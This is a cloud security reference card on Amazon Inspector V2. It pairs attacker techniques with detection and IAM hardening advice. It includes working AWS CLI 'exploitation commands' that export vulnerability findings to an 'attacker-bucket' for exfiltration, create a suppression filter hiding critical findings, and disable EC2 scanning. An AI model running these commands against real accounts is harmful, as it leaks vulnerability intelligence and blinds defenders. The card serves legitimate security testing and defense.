

#  Amazon Inspector V2 Security



> **Category**: VULNERABILITY SCANNING

Amazon Inspector V2 is an automated vulnerability management service that continuously scans EC2 instances, Lambda functions, and ECR container images for software vulnerabilities and network exposure. Attackers target scan results to identify exploitable weaknesses.

## Quick Stats

| Risk Level | EC2, Lambda, ECR | Based Scanning | Auto-Scanning |
| --- | --- | --- | --- |
| **MEDIUM** | **3 Types** | **CVE** | **Continuous** |

## Service Overview

### Scan Coverage Types

Inspector V2 provides three scanning types: EC2 instance scanning using SSM Agent, Lambda function code and layer scanning, and ECR container image scanning. All scans are automated and findings stored centrally.

> Attack note: Scan findings reveal exact CVEs and package versions - a roadmap for exploitation

### Finding Aggregation

Findings include vulnerability severity scores (CVSS), affected packages, remediation guidance, and network reachability analysis. Findings can be exported to S3 or sent to EventBridge for automation.

> Attack note: Suppressed findings may hide critical vulnerabilities from defenders while remaining accessible

## Security Risk Assessment

`██████░░░░` **6.0/10** (HIGH)

Inspector access provides attackers with detailed vulnerability intelligence. Scan results contain exact CVE IDs, vulnerable package versions, and network exposure data that directly enables exploitation of other resources.

## ⚔️ Attack Vectors

### Vulnerability Intelligence Theft

- List all findings to identify exploitable CVEs
- Filter by CRITICAL severity for high-value targets
- Identify unpatched EC2 instances and Lambda functions
- Map network reachability to find exposed services
- Export findings to attacker-controlled S3 bucket

### Scan Manipulation

- Suppress findings to hide vulnerabilities
- Create suppression rules to blind defenders
- Disable scanning for specific resources
- Cancel active scans during remediation
- Modify coverage settings to exclude targets

## ⚠️ Misconfigurations

### Access Control Issues

- Overly permissive inspector2:* IAM policies
- Cross-account access without conditions
- Missing resource-level restrictions
- Delegated admin in untrusted accounts
- Findings exported to unencrypted S3 buckets

### Operational Gaps

- Suppression rules too broad (hiding real issues)
- EC2 instances missing SSM Agent for scanning
- ECR scanning not enabled for all repositories
- Lambda function scanning not activated
- No EventBridge rules for critical findings

## 🔍 Enumeration

**List All Findings**
```bash
aws inspector2 list-findings \\
  --filter-criteria '{"severity":[{"comparison":"EQUALS","value":"CRITICAL"}]}'
```

**Get Coverage Statistics**
```bash
aws inspector2 list-coverage-statistics
```

**List Covered Resources**
```bash
aws inspector2 list-coverage \\
  --filter-criteria '{"resourceType":[{"comparison":"EQUALS","value":"AWS_EC2_INSTANCE"}]}'
```

**Describe Organization Config**
```bash
aws inspector2 describe-organization-configuration
```

**List Suppression Rules**
```bash
aws inspector2 list-filters
```

## 💀 Exploitation Techniques

### Finding Exfiltration

- Batch get findings with detailed CVE data
- Search for specific CVEs across all resources
- Identify Lambda functions with known RCE vulns
- Find EC2 instances with network exposure
- Export container image vulnerabilities

### Blind Defender Operations

- Create filters to suppress critical findings
- Suppress findings by CVE ID or resource
- Disable scanning for targeted resources
- Remove delegated admin to fragment visibility
- Cancel ongoing scans during incident response

> **Reconnaissance Gold:** Inspector findings provide exact CVE IDs and package versions - use this data to select exploits for lateral movement.

## 🎯 CVE Intelligence Usage

### High-Value Finding Types

- CRITICAL: Remote code execution vulns
- HIGH: Privilege escalation vulnerabilities
- Network reachability + CVE = immediate exploit
- Container image vulns for ECR/ECS/EKS
- Lambda layer vulnerabilities for serverless

### Attack Planning Data

- Exact package versions for exploit matching
- Network path analysis for attack routing
- Resource tags for target prioritization
- Remediation status to find unpatched systems
- First observed dates for zero-day hunting

## 🛡️ Detection

### CloudTrail Events

- ListFindings - bulk finding enumeration
- GetFindingsReportStatus - report generation
- CreateFilter - suppression rule creation
- UpdateFilter - modifying suppression rules
- DisableDelegatedAdminAccount - admin changes

### Indicators of Compromise

- Bulk ListFindings calls from new principal
- Suppression filters created for CRITICAL vulns
- Export operations to external S3 buckets
- Scanning disabled for specific resources
- Coverage changes during incident response

## Exploitation Commands

**Get All Critical Findings**
```bash
aws inspector2 list-findings \\
  --filter-criteria '{
    "severity": [{"comparison": "EQUALS", "value": "CRITICAL"}]
  }' --max-results 100
```

**Find EC2 Instances with Network Exposure**
```bash
aws inspector2 list-findings \\
  --filter-criteria '{
    "resourceType": [{"comparison": "EQUALS", "value": "AWS_EC2_INSTANCE"}],
    "networkReachability.networkPath.destination.portRanges": [
      {"begin": 22, "end": 22}
    ]
  }'
```

**Export Findings to S3 (Exfil)**
```bash
aws inspector2 create-findings-report \\
  --report-format CSV \\
  --s3-destination '{
    "bucketName": "attacker-bucket",
    "keyPrefix": "inspector-exfil/"
  }'
```

**Suppress Critical Findings**
```bash
aws inspector2 create-filter \\
  --name "hide-critical" \\
  --action SUPPRESS \\
  --filter-criteria '{
    "severity": [{"comparison": "EQUALS", "value": "CRITICAL"}]
  }'
```

**Find Lambda with Known CVEs**
```bash
aws inspector2 list-findings \\
  --filter-criteria '{
    "resourceType": [{"comparison": "EQUALS", "value": "AWS_LAMBDA_FUNCTION"}],
    "vulnerabilityId": [{"comparison": "PREFIX", "value": "CVE-2024"}]
  }'
```

**Disable EC2 Scanning**
```bash
aws inspector2 disable \\
  --resource-types EC2 \\
  --account-ids 123456789012
```

## Policy Examples

### ❌ Dangerous - Full Inspector Access

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": "inspector2:*",
    "Resource": "*"
  }]
}
```

*Allows reading all vulnerability data and creating suppression rules*

### ✅ Secure - Read-Only Findings

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "inspector2:ListFindings",
      "inspector2:ListCoverage"
    ],
    "Resource": "*",
    "Condition": {
      "StringEquals": {
        "aws:PrincipalTag/Team": "security"
      }
    }
  }]
}
```

*Limited to viewing findings, restricted to security team members*

### ❌ Dangerous - Suppression Creation

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Allow",
    "Action": [
      "inspector2:CreateFilter",
      "inspector2:UpdateFilter"
    ],
    "Resource": "*"
  }]
}
```

*Allows hiding vulnerabilities through suppression rules*

### ✅ Secure - Deny Suppression Modification

```json
{
  "Version": "2012-10-17",
  "Statement": [{
    "Effect": "Deny",
    "Action": [
      "inspector2:CreateFilter",
      "inspector2:UpdateFilter",
      "inspector2:DeleteFilter"
    ],
    "Resource": "*"
  }]
}
```

*Prevents modification of suppression rules as SCP or permission boundary*

## Defense Recommendations

### 🔐 Restrict Finding Access

Limit inspector2:ListFindings to security team members only using IAM conditions.

```bash
"Condition": {
  "StringEquals": {
    "aws:PrincipalTag/Team": "security"
  }
}
```

### 🚫 Deny Suppression Rule Changes

Use SCPs to prevent creation or modification of suppression filters.

### 📊 Monitor Finding Access

Alert on ListFindings calls from non-security principals or unusual volumes.

### 🔒 Encrypt Findings Exports

Use KMS encryption for any S3 export destinations.

```bash
aws inspector2 create-findings-report \\
  --s3-destination kmsKeyArn=arn:aws:kms:...
```

### 🌐 Enable All Scan Types

Ensure EC2, Lambda, and ECR scanning are all enabled for complete coverage.

```bash
aws inspector2 enable --resource-types EC2 LAMBDA ECR
```

### 📝 Audit Suppression Rules

Regularly review suppression filters and alert on new filter creation.

---

*Amazon Inspector V2 Security Card*

*Always obtain proper authorization before testing*
